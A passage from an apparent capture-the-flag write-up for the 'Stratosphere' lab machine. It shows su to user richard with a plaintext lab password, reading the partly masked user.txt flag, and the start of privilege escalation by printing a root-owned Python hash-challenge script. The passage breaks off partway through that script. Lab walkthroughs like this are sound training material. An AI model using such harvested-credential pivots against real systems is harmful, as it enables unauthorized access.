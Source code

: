 
### su with Creds

With password in hand, try su:

    
    
    tomcat8@stratosphere:~$
    su richard
    Password:
    9tc*rhKuG5TyXvUJOrE^5CK7k
    
    richard@stratosphere:/var/lib/tomcat8$
    

### user.txt

Use access as richard to get user.txt:

    
    
    richard@stratosphere:/var/lib/tomcat8$ cd /home/richard
    
    richard@stratosphere:~$
    cat user.txt
    e610b298************************
    richard@stratosphere:~$
    wc -c user.txt
    33 user.txt
    

## Privesc: richard –> root

### SSH Access

With richard’s creds, we can actually ssh in, so even more stable.

### test.py

In richard’s home dir, in addition to user.txt, there’s a python script,
test.py:

    
    
    richard@stratosphere:~$ ls -l
    total 12
    drwxr-xr-x 2 richard richard 4096 Oct 18  2017 Desktop
    -rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
    -r-------- 1 richard richard   33 Feb 27 16:31 user.txt
    
    richard@stratosphere:~$ cat test.py
    #!/usr/bin/python3
    import hashlib
    
    
    def question():
        q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
        md5 = hashlib.md5()
        md5.update(q1.encode())
        if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
            print("Sorry, that's not right")
            return
        print("You got it!")
        q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
        sha1 = hashlib.sha1()
        sha1.update(q2.encode())
        if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
            print("Nope, that one didn't work...")
            return
        print("WOW, you're really good at this!")
        q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")